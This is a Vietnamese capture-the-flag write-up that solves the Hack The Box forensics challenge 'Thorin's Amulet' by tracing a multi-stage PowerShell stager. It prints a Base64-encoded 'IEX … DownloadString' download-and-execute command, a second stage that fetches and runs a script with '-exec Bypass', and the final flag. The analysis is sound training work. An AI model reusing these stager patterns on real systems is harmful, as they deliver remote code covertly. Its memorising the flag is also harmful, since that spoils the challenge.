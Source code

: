 # Thorin’s Amulet 

### Details:
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?** Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.**

### Solution:
Ví dụ Docker instance: `94.237.51.163:57889`

Challenge cho chúng ta file `.ps1` :
```ps1
# artifact.ps1
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Đoạn code có 1 đoạn đang bị encode Base64: `SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=`, ta tiến hành decode nó:

```bash
# bash
> echo SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik= | base64 -d
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đoạn code sẽ tiến hành download từ link `http://korp.htb/update` . Note của đề bài cho ta biết `korp.htb` sẽ mapping tới docker spawn của mình nên mình sẽ sửa link thành `http://94.237.51.163:57889/update`
Ta tiến hành tải file từ link và nhận được 1 file `update.ps1`:

```ps1
# update.ps1
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Chương trình sẽ request tới `http://korp.htb/a541a` với header đã cung cấp để tải và thực thi file có tên là `a541a.ps1`
Ta tiến hành sửa code `.ps1` để thực hiện mỗi tải file để phân tích:
```ps1
Invoke-WebRequest -Uri "http://94.237.51.163:57889/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
```

Ta được tải được file có nội dung:
```ps1

# a541a.ps1
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

Code sẽ decode string từ hex value, ta tiến thành thực hiện nó và có flag:

`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`
